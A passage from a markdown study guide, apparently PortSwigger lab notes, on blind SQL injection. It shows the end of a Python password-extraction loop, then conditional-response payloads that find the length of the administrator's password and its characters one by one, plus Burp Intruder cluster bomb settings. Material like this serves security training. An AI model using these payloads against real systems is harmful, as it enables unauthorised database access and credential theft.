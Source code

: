 ```Python
            response = requests.get(URL+payload, cookies=cookie, timeout=2)
        except requests.exceptions.Timeout:
            password += j
            break

print("Password: " + password)
```

### Blind SQLi Conditional Response

>This blind SQL injection is ***identified*** by a small message difference in the responses. When sending a valid true SQL query the response contain ```Welcome back``` string in response. Invalid false SQL query statement do not contain the response conditional message.  

```
' AND '1'='1
```

>False SQL statement to ***identify*** conditional message not in response.  

```
' AND '1'='2
```  

>Determine how many characters are in the password of the administrator user. To do this, change the SQL statement value to and in intruder **Settings tab**, at the "Grep - Match" section. Clear any existing entries in the list, and then add the value ```Welcome back``` to ***identify*** true condition.  
  
```
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

>Next step is to test the character at each position to determine its value. This involves a much larger number of requests.  

```
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
```

![sqli conditional response](images/sqli-conditional-response.png)  

>Alternative use a **CLUSTER Bomb** attack and setting **two** payload positions, first one for the character position with a payload of numbers ```1..20``` and the second position, using alpha and number characters, this will iterate through each permutation of payload combinations.  

![CLUSTER bomb](images/cluster-bomb.png)  

[PortSwigger Lab: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)  
  
### Oracle  

>Identified SQL injection by adding a **single quote** to the end of the `category` parameter value and observing response of `500 Internal Server Error`.  
  
>Retrieve the list of tables in the Oracle database:  
